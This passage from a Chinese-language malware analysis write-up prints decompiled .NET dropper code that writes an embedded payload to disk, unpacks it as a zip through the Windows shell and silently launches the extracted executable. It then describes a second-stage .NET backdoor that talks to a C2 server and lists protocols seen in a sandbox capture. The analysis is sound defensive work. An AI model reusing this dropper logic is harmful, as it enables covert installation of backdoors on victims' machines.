                 bool flag = !Directory.Exists(apppath);
                if (flag)
                {
                    Directory.CreateDirectory(apppath);
                }
                string text = apppath + this.appName;
                File.WriteAllBytes(text, wind);
                string text2 = apppath + "mdkhm.zip";
                flag = !File.Exists(text2);
                if (flag)
                {
                    File.Move(text, text2);
                }
                string text3 = text + ".exe".ToString();
                flag = !File.Exists(text3);
                if (flag)
                {
                    object objectValue = RuntimeHelpers.GetObjectValue(NewLateBinding.LateGet(this.shObj, null, "NameSpace", new object[]
                    {
                        apppath
                    }, null, null, null));
                    object objectValue2 = RuntimeHelpers.GetObjectValue(NewLateBinding.LateGet(this.shObj, null, "NameSpace", new object[]
                    {
                        text2
                    }, null, null, null));
                    NewLateBinding.LateCall(objectValue, null, "CopyHere", new object[]
                    {
                        RuntimeHelpers.GetObjectValue(NewLateBinding.LateGet(objectValue2, null, "Items", new object[0], null, null, null)),
                        4
                    }, null, null, null, true);
                }
                Process.Start(text3);
            }
            catch (Exception ex)
            {
            }
        }
        ```
        :::
    4. Anaylize dlrarhsiva.exe
        根據DIE發現這也是一個.NET寫的PE file
        ![image](https://hackmd.io/_uploads/S1mWzgXpa.png)
        而且會發現module多了很多，實際進去看會發現應該是實際與C2 server連線和實作指令的地方，也就是後門的指令都在這邊
        ![image](https://hackmd.io/_uploads/BJ1jV-mTT.png)
        至於有哪一些操作，詳細可以看後門功能的section
            
                
### 通訊協定
我是直接把any.run的pcap download下來看有哪些東西
```
NBNS
ARP
ICMPv6
LLMNR
BROWSER
DNS
TCP
DHCPv6
MDNS
STP
```